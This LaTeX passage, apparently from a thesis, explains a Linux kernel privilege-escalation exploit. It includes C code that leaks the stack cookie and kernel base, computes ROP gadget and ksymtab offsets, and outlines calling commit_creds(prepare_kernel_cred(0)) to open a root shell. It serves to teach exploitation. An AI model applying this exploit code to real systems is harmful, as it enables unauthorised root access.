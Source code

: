 \documentclass{masterthesis}
\begin{document}
\begin{figure}[h!]
   \caption{Find address in the stack in no randomize region}
   \label{address_graphview}
\end{figure}



\texttt{\lstinline{__ x86_retpoline_r15}, \lstinline{swapgs_restore_regs_and_return_to_usermode}, \lstinline{ksymtab}} are never randomized with respect to \lstinline{_text}, and in particular both \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred} keep the same offset inside \lstinline{ksymtab}.
Instead, to find the base image, we need to inspect the stack when reading the module, look at a large amount of data and find an address located in the \lstinline{_text} region.
Reading 320 bytes, we find at 304th byte an address that falls in the region of \lstinline{_text}. From that value, we have to subtract the address of \lstinline{_text} and find the base image.
\begin{lstlisting}
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    image_base = leak[38] - 0xa157ULL;
    kpti_trampoline = image_base + 0x200f10UL + 22UL;
    pop_RAX_ret = image_base + 0x4d11UL;
    read_mem_pop1_ret = image_base + 0x4aaeUL;
    pop_RDI_RBP_ret = image_base + 0x38a0UL;
    ksymtab_prepare_kernel_cred = image_base + 0xf8d4fcUL;
    ksymtab_commit_creds = image_base + 0xf87d90UL;

    printf("[*] Leaked %zd bytes\n", r);
    printf("    --> Cookie: %lx\n", cookie);
    printf("    --> Image base: %lx\n", image_base);
}
}
\end{lstlisting}
At this point, we have 4 stages:
\begin{enumerate}
\item Leaking commit\_creds;
\item Leaking prepare\_kernel\_cred;
\item Calling prepare\_kernel\_cred(0);
\item Calling commit\_creds() and opening root shell.
\end{enumerate}
\end{document}

